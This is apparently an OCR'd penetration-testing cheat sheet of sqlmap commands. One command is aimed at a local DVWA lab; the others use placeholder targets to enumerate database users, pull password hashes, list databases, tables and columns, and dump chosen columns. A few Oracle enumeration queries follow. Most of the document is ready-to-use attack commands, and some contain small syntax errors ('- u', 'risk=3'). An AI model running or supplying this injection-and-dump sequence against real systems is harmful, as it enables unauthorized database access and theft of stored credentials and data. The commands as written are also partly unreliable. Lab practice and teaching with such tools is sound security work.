 `--headers="User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:25.0) Gecko/20100101 Firefox/25.0" --cookie="security=low; PHPSESSID=oikbs8qcic2omf5gnd09kihsm7" -u 'http://localhost/dvwa/vulnerabilities/
sqli_blind/?id=1-BR&Submit=Submit#' --level=5 risk=3 -p id`

SQLMap Progressive Scanning/Attack with POST DATA

What are we dealing with?

`sqlmap - u $tgt/url --dbms=mysql --forms --banner`

Who are the DB users.... not user data but the users administering the DB

`sqlmap - u $tgt/url --dbms=mysql --forms --banner --users`

Get those users? passwords?

`sqlmap - u $tgt/url --dbms=mysql --forms --banner --users --passwords`

Enumerate the server and its DB that the user has access to

`sqlmap - u $tgt/url --dbms=mysql --forms --banner --dbs`

Enumerate a particular DB

`sqlmap - u $tgt/url --dbms=mysql --forms --banner -D $targetDB`

What are the Tables?

`sqlmap - u $tgt/url --dbms=mysql --forms --banner -D $targetDB --tables`

what are the columns?

`sqlmap - u $tgt/url --dbms=mysql --forms --banner -D $targetDB -T $tgttable --columns`

Target the columns you want

`sqlmap - u $tgt/url --dbms=mysql --forms --banner -D $targetDB -T $tgttable -C name,of,columns --dump`

-levels 1-5- Default 1. Controls the numbers of payloads it tries.  For example, user agents, cookies etc. it starts attacking all of them.
- Risk 1-3- The higher the number the riskier the attack.  A higher level of risk could corrupt and crash the database.

`--technique=` manually select the type of attack. Specify which one you know works to save time.

`sqlmap -u http://$tgt/ --crawl=20 --threads=5 --forms --batch --dbms=mysql --dbs  `


***
ORACLE DB

`http://oracleserver:port/pls/simpledad?admin_/globalsettings.htm`

`select * from v$version`

`select * from global_name`

`select table_name FROM all_tables;`

`select owner, table_name FROM all_tables;`
